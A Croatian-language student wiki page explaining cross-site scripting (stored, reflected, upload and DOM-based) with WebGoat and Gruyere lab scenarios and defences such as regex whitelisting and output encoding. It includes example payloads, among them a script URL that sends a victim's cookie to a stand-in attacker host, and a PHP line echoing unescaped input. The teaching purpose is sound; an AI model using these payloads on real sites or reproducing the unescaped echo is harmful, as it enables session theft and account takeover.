


Napadi na korisnika putem web browsera
Cross-site scripting (XSS)
--Ivbuconji 11:55, 19. siječnja 2015. (CET)
U današnje vrijeme većina web stranica sadrži dinamičke sadržaje. Oni se ostvaruju uz pomoć web aplikacija i za razliku od statičkih njima prijeti opasnost od XSS napada, odnosno Cross-Site Scripting napada. To je oblik napada na aplikacijskoj razini, a koristi ranjivost neke dinamičke web stranice. Napad se izvodi tako da se u ulazne podatke korisnika ubacuje zloćudni programski kod kako bi se on, nakon što korisnik nesvjesno klikne na kod, izveo u korisnikovom, žrtvinom, web pregledniku. Isto tako može se postaviti skripta na web stranici koja će se izvršavati svaki puta kada se ta stranica učitava. Zapravo se aplikaciju prisiljava da ona pošalje korisničkom pregledniku odgovor koji se učitava i prikazuje, a koji je prethodno preoblikovan. Koristi se kombinacija koda u programskim jezicima kojeg podržava korisnikov preglednik, a neki od tih jezika su JavaScript, HTML, Java i Flash.
Mi smo se odlučili za JavaScript.
Kod korištenja skriptnih jezika poput JavaScripta, izvršava se na strani korisnika, tada dinamičke web stranice nemaju kontrolu nad sadržajem koji se izvršava na web pregledniku korisnika. Napadači to iskorištavaju jer im je cilj da propust što duže ostane nezamijećen, a da ga oni mogu iskorištavati. Oni tada mogu čitati i mijenjati osjetljive podatke koji su dostupni putem web preglednika. Napadači mogu ukrasti cookies, mogu usmjeravati web preglednik na neke druge lokacije, a mogu i proslijediti štetan sadržaj iz neke druge web aplikacije. Uspješan napad ima za posljedicu da napadač može prezeti kotrolu na preglednikom.
XSS napad moguć je zbog ranjivosti aplikacije, nedostatak kontrole nad sadržajem, ali aplikacija sama po sebi nije žrtva napada nego je žrtva sam korisnik aplikacije. To je moguće jer ranjivost aplikacije dopušta da se zloćudni kod izvršava u tijeku korisničke sesije i tako se omogućava napadaču da zaobiđe zaštitu.
Karakteristike XSS napada:
-> izvode se na ranjivim web aplikacijama
-> žrtva nije sama aplikacija nego korisnika te aplikacije
-> zloćudni sadržaj se pomoću JavaScripta isporučuje korisnicima
ZAŠTITA OD NAPADA
--Ivbuconji 13:28, 19. siječnja 2015. (CET)
Jedan od načina zaštite od XSS napada je da razvojni programeri zaštite svoje web stranice na način da osiguraju da dinamičke web stranice ne sadrže neželjene oznake - tagove.
Onemogućavanjem izvođenja JavaScript programskog koda kako bi se spriječilo izvođenje programskog koda na strani klijenta. To je najbolja zaštita, ali posljedica je smanjena funkcionalnost. Dalje će postojati opasnost od posebno oblikovanih HTML dokumenata koji se proslijeđuju putem elektroničke pošte.
Mogu se filtrirati korisnički zahtjevi, filtriranje i potvrđivanje ispravnosti ulaznih podataka, a ako se utvrdi da zahtjev sadrži skriptu tada će web aplikacija spriječiti prikaz HTML dokumenta unutar web preglednika kod korisnika.
Stranice se mogu kodirati i tako se onemogućuje slučajno pokretanje zloćudnog koda na web poslužitelju.
Cross-site scripting (XSS) - WebGoat
--Hrorejas 10:22, 19. siječnja 2015. (CET)
U WebGoat aplikaciji kreiran je scenarij gdje svaki korisnik može pristupiti svojem profilu u poduzeću gdje se drže osobni podaci o zaposlenicima. Svaki zaposlenik može pristupiti svojem profilu isto tako i ažurirati svoj profil. Neki od osobnih podataka koje poduzeće prikuplja o svojim zaposlenicima su:
•Ime i prezime
•Adresa
•Broj telefona
•Broj kreditne kartice itd…
Voditelji odjela za upravljanje ljudskim potencijalima imaju veće ovlasti nad sustavom kao kreiranje novih profila, ažuriranje informacija i dodavanje komentara o zaposlenicima. Ovakav primjer je upravo idealan način za iskoristiti ranjivost sustava XSS napadom. Pošto svaki profil sadrži n broj input polja nad kojima se ne provjerava validacija tj. nakon upisane adrese dodaju se html tagovi za skriptu koja će izvršiti maliciozni kod. Svaki korisnik neovisno o ulozi u sustavu ima pravo pogledati tuđi profil što je zapravo idealno jer je podložan napadu putem pohranjenog XSS napada. Pohranjeni napad je spremljen u neku od varijabla za input kao npr. adresa. Važno je napomenuti da u ovom slučaju napadač je korisnik aplikacije tj. zaposlenik tog poduzeća. U ovom slučaju napad može doći iz vanjske okoline, ako netko infiltrira sustav tko nije zaposlenik i iskoristi ovu ranjivost. Isto tako prijetnja može biti unutarnja tako da zaposlenik može kreirati napad i tako ukrasti neke podatke od drugih zaposlenika. U ovom slučaju XSS web aplikacija je podložna napadima unutarnje i vanjske okoline.
STORED XSS
--Hrorejas 10:22, 19. siječnja 2015. (CET)
Vrsta napada koji je vrlo učestao iz nepažnje programera prilikom izgradnje web stranice. Naime ova vrsta napada iskorištava nepostojanje validacije prilikom upisa podataka. Validacija unosa može postojati client – side kao i server – side. Nedostatak takve validacije omoguće spremanje HTML i Javascript koda u bazu podataka. Opasnost takvih napada je upravo u tome da drugi korisnici aplikacije prilikom otvaranja poruka postaju zaraženi XSS skriptom. Korisnik kad otvori takvu stranicu primi odgovor od servera on ne znajući što taj kod radi izvršava takav kod - browser. Kod takvih napada obično se pokušava ukrasti neki osobni podatak od korisnika, session key ili neki drugi osobni podatak koji napadaču predstavlja vrijednost.
{kind=link}
STORED XSS REVISITED
--Hrorejas 10:22, 19. siječnja 2015. (CET)
Ovo je drugi korak napada putem XSS-a.. Prvo je bilo potrebno iskoristit ranjivost web aplikacije i pohraniti takav napad, a nakon toga drugi korisnici koji otvaraju te linkove ne znajući da se unutar njihovog preglednika izvršava maliciozni kod. Korisnik korištenjem neke web aplikacije učitava podatke koje prima od servera. Otvaranjem podataka koje prosljeđuje stranica zaraženi malicioznim kodom web browser izvršava u pregledniku. Od korisnika se može tražiti „ponovni unos“ lozinke i korisničkog imena u lažnim HTML elementima koji se nakon toga prosljeđuju napadaču. Isto tako mogu se ukrasti i drugi podaci kao što su podaci koji su zapisani u cookie-u, jsessionid...
ZAŠTITA
BLOCK STORED XSS USING INPUT VALIDATION
--Hrorejas 10:22, 19. siječnja 2015. (CET)
Takva vrsta napada može se spriječiti validacijom korisničkog unosa s obje strane (client i server side). Korištenjem regular expression (regex) možemo specificirati koje znakove prihvaćamo prilikom unosa podataka u neki input formu - whitelisting. Svaki pokušaj unašanja neželjenih skripti rezultira pogreškom, najbolja praksa pokazuje da je zaštitu najbolje implementirati na obje strane.
String regex = "[\\s\\w-,]*";
String stringToValidate = firstName+lastName+ssn+title+phone+address1+address2+
startDate+ccn+disciplinaryActionDate+
disciplinaryActionNotes+personalDescription;
Pattern pattern = Pattern.compile(regex);
validate(stringToValidate, pattern);
BLOCK STORED XSS USING OUTPUT ENCODING
--Hrorejas 10:22, 19. siječnja 2015. (CET)
Kada korisnik zahtjeva podatke s servera koji se proljeđuju korisniku i sadrži Stored XSS napad. Ako se ti podaci encodiraju prije slanja korisniku, web browser će izvršiti skriptu kao običan tekst, a ne kao javascript file. Encoding sadržaja potrebno je obaviti neposredno prije slanja podataka korisniku - u browser, a ako su podaci kodirani pomoću HtmlEncode onda se ne može koristiti u neke druge kontekste, kao što su JavaScript ili URL itd.
Alat Gruyere
--Embalint 12:34, 19. siječnja 2015. (CET)
Ovaj alat je jedan od mnogih koji je napravljen tako da je u potpunosti ranjiv. Svrha toga je da se mogu isprobati razni XSS napadi da se shvati kako koji napad funkcionira. Dobra strana ovog alata je to što je live, ne zahtjeva nikakvu posebnu instalaciju, jedino treba podesiti zastavice ako koristite Google Chrome. URL od alata: [1] 
{kind=link}
Reflected XSS napad
--Embalint 12:24, 19. siječnja 2015. (CET)
Reflected ili često nazvana non-persistent, te ponekad Type-II XSS. To je jedan od XSS napada gdje se korisniku daje url link phising metodom, te korisnik odlazi na svoju „stranicu kojoj vjeruje“, te aktivira zlonamjeran kod koji mu se reflektirao putem browsera.
Reflected XSS napad scenarij
--Embalint 11:54, 19. siječnja 2015. (CET)
Napad 1.
1. Napadač kreira zlonamjeran url poput : <script>alert(document.cookie);</script> [2]
2. Koristeći social enginering uvjerava korisnike da je link vjerodostojan,uvjerljiv npr. putem e-maila.
3. Korisnik klikne na link i pokreće zlonamjernu skriptu koja u ovom slučaju ispisuje ID korisnika, međutim isti link može sadržavati novo generiranu login formu koju je napravio napadač.
4. Korisnik se ulogira svojim korisničkim podacima, te pritiskom na login gumb, pošalje iste podatke napadaču.
5. Napadač sada posjeduje informacije o korisniku i može se ulogirati
{kind=link}
Ispis napada preko Gruyere test stranice:
{kind=link}
Napad 2.
1. Napadač kreira zlonamjeran url poput : praviposluzitelj.com/pretraga.php?search=<script>document.location="zločesti_deči.com/napad?+document.cookie</script>;
2. Koristeći social enginering uvjerava korisnike da je link vjerodostojan,uvjerljiv npr. putem e-maila (isto kao i prethodni).
3. Klikom na link korisnik je redirectan na nepovjerljivu stranicu.
4. Napadač koristi naredbu:
Traženi pojam
<?php echo $_GET['search']; ?>
nije pronađen.
5. Korisniku se ispise poruka da nije pronašao traženio pojam, dok je napadač uhvatio korisnikov cookie sa get metodom echo $_GET['search'];
{kind=link}
Izvori :
Carnet;Analiza XSS sigurnosnih propusta [3]
OWASP.org [4]
Upload XSS
--Embalint 13:33, 19. siječnja 2015. (CET)
1. Napadač kreira html file poput :
<script>alert(document.cookie);</script>
2. Napadač ili korisnik ako je naveden na to uploada html file.
3. Korisnik otvara uploadan html file.
4. Otvoren html file izvršava zlonamjernu skriptu.
5. Napadač prikuplja informacije o napadnutom korisniku
{kind=link}
Literatura :
Web Application Exploits and Defenses [5]
DOM - Document Object Model
--Ivbuconji 12:47, 19. siječnja 2015. (CET)
Napadi koji se temelje na DOM modelu, platforma i standard za prikaz XML i HTML sadržaja, slični su reflected odnosno neustrajnim napadima. Napadač može izvršiti ovaj napad kada je propustom web preglednika omogućeno tretiranje prikazane stranice kao datoteke, a koja je smještena lokalno na računalu korisnika. Kod ovakvog napada nije bitno da web stranica direktno primi zloćudan kod jer kada se izvrši JavaScript unutar web stranice tada se automatski stvaraju DOM objekti. Također napadač može postaviti oblikovanu web stranicu koja sadrži zloćudan kod i postaviti poveznicu na jednu od lokacija na računalu korisnika. Kada korisnik ode na tu lokaciju napadač može pokrenuti programski kod.
DOM objekti su obekti koji predstavljaju model web stranice na način kako ga vidi web preglednik, a JavaScript kodu omogućuje korištenje različitih postavki web stranice. DOM objekti nisu vidljivi u tijelu HTML stranice.
 DOM model za HTML
{kind=link}
Slika prikazuje strukturu DOM modela za HTML. Najviši objekt takve web stranice je "Document", a unutar sebe sadrži podobjekte poput "URL" i "location". Napad se izvodi na način da se zloćudni kod ubacuje kao ulazni podatak sa korisničke strane na web stranicu sa JavaScript kodom, a on pristupa DOM objektima i generira HTML sadržaj. Zloćudni kod na kojeg naiđe web preglednik istog trena se izvršava i može se vidjeti da se kod ovakvog napada lokalno zaobilazi sigurna okolina korisnika.
LITERATURA
https://www.youtube.com/watch?v=L5l9lSnNMxg https://www.youtube.com/watch?v=vRBihr41JTo https://www.youtube.com/watch?v=JCvPnwpWVUQ http://www.cis.hr/www.edicija/LinkedDocuments/CCERT-PUBDOC-2008-01-215.pdf http://www.cert.hr/sites/default/files/NCERT-PUBDOC-2011-02-323.pdf http://os2.zemris.fer.hr/ns/malware/2007_zelanto/xss.html http://www.informacija.rs/Recnik/Cross-Site-Scripting-XSS-napadi.html